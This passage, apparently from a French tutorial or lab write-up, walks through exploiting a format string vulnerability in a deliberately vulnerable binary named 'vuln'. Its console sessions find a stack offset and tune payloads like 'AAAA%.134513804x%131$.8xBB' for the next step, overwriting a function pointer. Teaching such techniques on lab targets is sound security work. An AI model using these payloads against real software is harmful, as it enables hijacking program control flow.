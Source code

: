 Le programme peut prendre un peu de temps à s'exécuter.  

```console
oj@hell:~$ python find_offset.py
Offset trouve a 131 avec 2 octets de padding
AAAA%.134513804x%131$.8xBB
```

Mais si on passe directement cet argument à `vuln` on n'obtient pas tout à fait le résultat souhaité (on n'est pas loin cependant) :  

```console
oj@hell:~$ ./vuln AAAA%.134513804x%131\$.8xBB
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffccc
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffffcc8, y=0xbffffcc4, z=0xbffffcc0
--- snip ---0000125414141BB
#end  a=1, b=2, c=3 - x=0xbffffcc8, y=0xbffffcc4, z=0xbffffcc0
Program terminated with success
```

La pile n'est pas exactement la même que lors d'un lancement depuis bash, c'est peut être dû à la façon dont Python appelle le programme ou la présence de variables d'environnement supplémentaires (ou en moins) sur la pile.  

On va devoir se débrouiller par nous même.  

Pour réduire l'output on remplace le nombre d'octets à écrire par des 0, on corrigera plus tard.  

```console
oj@hell:~$ ./vuln AAAA%.000000000x%131\$.8xBB
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffccc
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffffcc8, y=0xbffffcc4, z=0xbffffcc0
AAAA125414141BB
#end  a=1, b=2, c=3 - x=0xbffffcc8, y=0xbffffcc4, z=0xbffffcc0
Program terminated with success
```

On retrouve très facilement ce que l'on souhaite avec un padding de 1 comme au début :  

```console
oj@hell:~$ ./vuln AAAA%.000000000x%131\$.8xB
terminated=0x804847c, secret=0x8048490, &ptr2f=0xbffffccc
shellcode addr=(nil)
#start a=1, b=2, c=3 - x=0xbffffcc8, y=0xbffffcc4, z=0xbffffcc0
AAAA141414141B
#end  a=1, b=2, c=3 - x=0xbffffcc8, y=0xbffffcc4, z=0xbffffcc0
Program terminated with success
```

Notez (et c'est très important) que même en ayant spécifié 0 octets à écrire pour `%x` les fonctions de la famille de `printf` écriront toujours au minimum une entrée (pour `%x` au minimum un caractère).  

On remplace `AAAA` par l'adresse du pointeur sur fonction et on remet la quantité d'octets à écrire souhaitée.  
